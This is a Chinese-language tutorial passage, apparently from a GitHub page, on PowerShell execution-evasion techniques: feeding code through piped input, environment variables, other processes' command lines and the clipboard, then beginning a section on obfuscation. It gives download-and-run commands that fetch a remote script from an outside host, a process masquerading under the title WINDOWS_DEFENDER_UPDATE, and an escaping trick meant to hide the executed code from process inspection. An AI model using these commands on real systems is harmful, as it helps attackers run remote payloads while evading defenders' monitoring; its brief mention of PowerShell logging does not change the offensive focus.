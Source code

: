 **1.2 管道输入流**

```
cmd.exe /c "echo Write-Host SUCCESS -Fore Green | powershell IEX $input"
```

**1.3 利用环境变量**



```
cmd.exe /c "set cmd=Write-Host ENV -Fore Green&amp;&amp;powershell IEX $env:cmd"
cmd.exe /c "set cmd=Write-Host ENV -Fore Green&amp;&amp;cmd /c echo %cmd%|powershell -
cmd.exe /c "set cmd=Write-Host ENV -Fore Green&amp;&amp;powershell IEX ([Environment]::GetEnvironmentVariable('cmd', 'Process'))
cmd.exe /c "set cmd=Write-Host ENV -Fore Green&amp;&amp;powershell IEX ((Get-ChildItem/ChildItem/GCI/DIR/LS env:cmd).Value)
```

在父进程中隐藏运行的代码：上面第二种方式运行时，如果使用进程查看，可以在父进程启动参数中cmd.exe /c "set cmd=Write-Host ENV -Fore Green&amp;&amp;cmd /c echo %cmd%|powershell -,看到你执行的代码，因为此时powershell -的父进程时第一个cmd.exe，所以可以使用cmd中的转义符号^将|转义后，如

cmd.exe /c "set cmd=Write-Host ENV -Fore Green&amp;&amp;cmd /c echo %cmd%^|powershell -,第二个cmd后面对命令行来说是一个整体，然后执行cmd /c echo %cmd%|powershell -,此时powershell -的父进程就是第二个cmd了，看不到我们执行的代码了。

**1.4 从其他进程获取参数**

首先启动多个cmd进程，这些进程参数中包含要执行的代码

```
cmd /c "title WINDOWS_DEFENDER_UPDATE&amp;&amp;echo IEX (IWR https://7ell.me/power)&amp;&amp; FOR /L %i IN (1,1,1000) DO echo"
```

然后在powershell中提取出来IEX (IWR https://7ell.me/power)执行，如：

```
cmd /c "powershell IEX (Get-WmiObject Win32_Process -Filter ^"Name = 'cmd.exe' AND CommandLine like '%WINDOWS_DEFENDER_UPDATE%'^").CommandLine.Split([char]38)[2].SubString(5)"
```

**1.5 从粘贴板**

```
cmd.exe /c "echo Write-Host CLIP -Fore Green | clip&amp;&amp; powershell [void][System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms'); IEX ([System.Windows.Forms.Clipboard]::GetText())"
```

这些方法可以在powershell日志中看到，所以开启powershell的日志分析很重要。

但是，如果时混淆的，日志中也仅仅是记录了混淆后的东西。

<br>

**2. 混淆**

Hacker在攻击时经常会远程下载代码脚本执行，这里基于这样的一条标准的下载文件命令来进行变形混淆。

```
Invoke-Expression (New-Object System.Net.WebClient).DownloadString("http://7ell.me/power")。
```

